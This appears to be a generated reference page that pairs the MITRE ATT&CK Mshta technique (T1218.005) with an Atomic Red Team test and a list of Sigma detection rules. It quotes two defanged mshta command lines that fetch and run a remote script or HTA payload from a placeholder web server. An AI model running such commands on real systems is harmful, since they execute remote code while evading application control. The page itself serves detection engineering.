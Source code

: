 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Mshta executes VBScript to execute malicious command
## OS
  - windows


## Description:
Run a local VB script to run local user enumeration powershell command.
This attempts to emulate what FIN7 does with this technique which is using mshta.exe to execute VBScript to execute malicious code on victim systems.
Upon execution, a new PowerShell windows will be opened that displays user information.


# Sigma Rule
 - win_susp_mshta_pattern.yml (id: e32f92d1-523e-49c3-9374-bdb13b46a3ba)

 - win_susp_mshta_execution.yml (id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3)

 - win_susp_powershell_parent_process.yml (id: 754ed792-634f-40ae-b3bc-e0448d33f695)

 - win_shell_spawn_mshta.yml (id: 772bb24c-8df2-4be0-9157-ae4dfa794037)

 - win_mshta_spawn_shell.yml (id: 03cc0c25-389f-4bf8-b48d-11878079f1ca)

 - win_non_interactive_powershell.yml (id: f4bbd493-b796-416e-bbf2-121235348529)

 - powershell_ps_localuser.yml (id: 4fdc44df-bfe9-4fcc-b041-68f5a2d3031c)

 - powershell_ps_suspicious_local_group_reco.yml (id: fa6a5a45-3ee2-4529-aa14-ee5edc9e29cb)

 - powershell_pm_suspicious_local_group_reco.yml (id: cef24b90-dddc-4ae1-a09a-8764872f69fc)



[back](../index.md)
